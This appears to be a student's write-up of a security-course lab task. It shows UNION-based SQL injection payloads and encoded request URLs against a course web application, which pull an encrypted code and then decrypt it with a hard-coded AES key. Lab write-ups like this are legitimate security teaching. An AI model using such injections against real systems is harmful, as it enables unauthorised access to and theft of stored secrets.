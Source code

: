 ## [BONUS :feelsgood:] Task 11: Steal Martin Rehak's secure code
---
Interestingly, Mr. Rehak is not a user of the system as we didn't find his name in the exflitrated table with users. However, in order to steal the secure code, we need to decrypt `aes_encrypt_code` which is in the table `codes`. So if this task should be possible the code and the suername should be there. 
```sql
0 UNION SELECT aes_encrypt_code, 1 FROM codes c where c.username like 'rehakmar';
```
So the request:
```
https://kbe.felk.cvut.cz/index.php?offset=0%20UNION%20SELECT%20aes_encrypt_code,%201%20FROM%20codes%20c%20where%20c.username%20like%20%27rehakmar%27;
```
as the result we can see the `aes_encrypt_code = E3BCC1C2ACBDA02B07A04D576ED0BE9DE52286F0102DD8DC83BC839790862352`.

We also know how the application processes the codes:
```php
$code = q("SELECT AES_DECRYPT(UNHEX(aes_encrypt_code), '" . e(AES_ENCRYPT_CODE_KEY) . "') AS code FROM codes WHERE username = '" . e($_SESSION["username"]) . "'")->fetch_assoc()["code"];
```
So we can again query database like that:
```sql
0 UNION SELECT AES_DECRYPT(UNHEX(aes_encrypt_code), "iHw35UKAPaSYKf8SI44CwYPa"), 1 FROM codes c where c.username = "rehakmar";

```
So the request:
```
https://kbe.felk.cvut.cz/index.php?offset=0%20UNION%20SELECT%20AES_DECRYPT(UNHEX(aes_encrypt_code),%20%22iHw35UKAPaSYKf8SI44CwYPa%22),%201%20FROM%20codes%20c%20where%20c.username%20=%20%22rehakmar%22;
```
And the result -> `scorpion-ask-milk-sunny`.